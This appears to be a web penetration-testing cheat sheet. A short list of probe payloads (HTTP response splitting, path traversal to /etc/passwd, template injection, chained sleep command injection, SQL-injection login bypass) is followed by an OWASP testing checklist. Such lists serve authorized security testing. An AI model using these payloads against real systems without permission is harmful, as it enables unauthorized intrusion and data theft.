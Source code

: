 ```
INJECTX"><h1>X
en%0AContent-Length%3A%200%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2020%0A%3Chtml%3EINJECTX%3C%2Fhtml%3E%0A%0A
%0AContent-Length%3A%200%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2020%0A%3Chtml%3EINJECTX%3C%2Fhtml%3E%0A%0A
../../../../../../../../../../../etc/passwd%00
{{4+4}}
sleep 5; sleep 5 || sleep 5 | sleep 5 & sleep 5 && sleep 5
admin" or "1"="1"-- 
admin' or '1'='1'-- 
firstlastcompany%0a%0d%00
```




### OWASP TESTING CHECKLIST:
-----------------------------------------------------------------------
- Spiders, Robots and Crawlers	IG-001
- Search Engine Discovery/Reconnaissance	IG-002
- Identify application entry points	IG-003
- Testing for Web Application Fingerprint	IG-004
- Application Discovery	IG-005
- Analysis of Error Codes	IG-006
- SSL/TLS Testing (SSL Version, Algorithms, Key length, Digital Cert. Validity) - SSL Weakness	CM‐001
- DB Listener Testing - DB Listener weak	CM‐002
- Infrastructure Configuration Management Testing - Infrastructure Configuration management weakness	CM‐003
- Application Configuration Management Testing - Application Configuration management weakness	CM‐004
- Testing for File Extensions Handling - File extensions handling	CM‐005
- Old, backup and unreferenced files - Old, backup and unreferenced files	CM‐006
- Infrastructure and Application Admin Interfaces - Access to Admin interfaces	CM‐007
- Testing for HTTP Methods and XST - HTTP Methods enabled, XST permitted, HTTP Verb	CM‐008
- Credentials transport over an encrypted channel - Credentials transport over an encrypted channel	AT-001
- Testing for user enumeration - User enumeration	AT-002
- Testing for Guessable (Dictionary) User Account - Guessable user account	AT-003
- Brute Force Testing - Credentials Brute forcing	AT-004
- Testing for bypassing authentication schema - Bypassing authentication schema	AT-005
- Testing for vulnerable remember password and pwd reset - Vulnerable remember password, weak pwd reset	AT-006
- Testing for Logout and Browser Cache Management - - Logout function not properly implemented, browser cache weakness	AT-007
- Testing for CAPTCHA - Weak Captcha implementation	AT-008
- Testing Multiple Factors Authentication - Weak Multiple Factors Authentication	AT-009
- Testing for Race Conditions - Race Conditions vulnerability	AT-010
- Testing for Session Management Schema - Bypassing Session Management Schema, Weak Session Token	SM-001
- Testing for Cookies attributes - Cookies are set not ‘HTTP Only’, ‘Secure’, and no time validity	SM-002
- Testing for Session Fixation - Session Fixation	SM-003
- Testing for Exposed Session Variables - Exposed sensitive session variables	SM-004
- Testing for CSRF - CSRF	SM-005
- Testing for Path Traversal - Path Traversal	AZ-001
- Testing for bypassing authorization schema - Bypassing authorization schema	AZ-002
- Testing for Privilege Escalation - Privilege Escalation	AZ-003
- Testing for Business Logic - Bypassable business logic	BL-001
- Testing for Reflected Cross Site Scripting - Reflected XSS	DV-001
- Testing for Stored Cross Site Scripting - Stored XSS	DV-002
- Testing for DOM based Cross Site Scripting - DOM XSS	DV-003
- Testing for Cross Site Flashing - Cross Site Flashing	DV-004
- SQL Injection - SQL Injection	DV-005